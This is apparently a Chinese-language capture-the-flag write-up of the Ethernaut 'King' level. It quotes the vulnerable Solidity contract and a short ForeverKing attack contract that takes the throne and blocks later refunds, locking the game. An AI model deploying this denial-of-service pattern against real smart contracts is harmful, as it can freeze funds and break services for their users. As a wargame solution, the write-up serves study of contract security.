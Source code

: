 [minestorage](https://sepolia.etherscan.io/tx/0xa85f25ab4641b3703f339c4c9d24578e09f7c0079d915ef79ac08e63f0d8c683#statechange)

# 9.King

题面有点复杂

下面的合约表示了一个很简单的游戏: 任何一个发送了高于目前价格的人将成为新的国王. 在这个情况下, 上一个国王将会获得新的出价, 这样可以赚得一些以太币. 看起来像是庞氏骗局.

这么有趣的游戏, 你的目标是攻破他.

当你提交实例给关卡时, 关卡会重新申明王位. 你需要阻止他重获王位来通过这一关.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract King {

  address king;
  uint public prize;
  address public owner;

  constructor() payable {
    owner = msg.sender;  
    king = msg.sender;
    prize = msg.value;
  }

  receive() external payable {
    require(msg.value >= prize || msg.sender == owner);
    payable(king).transfer(msg.value);
    king = msg.sender;
    prize = msg.value;
  }

  function _king() public view returns (address) {
    return king;
  }
}
```

在反复阅读之后，理解了就是说当你付款超过目前king后，之后再有人付款超过你也无法改变king，也就是说在payable(king).transfer()时直接revert即可，就是说它这个款付不到我的合约中

```solidity 
pragma solidity ^0.8.0;

contract ForeverKing {
    constructor(address payable target) payable {
        uint prize = King(target).prize();
        (bool ok, ) = target.call{value:prize}("");
        require(ok, "call Failed.");
    }
}
```
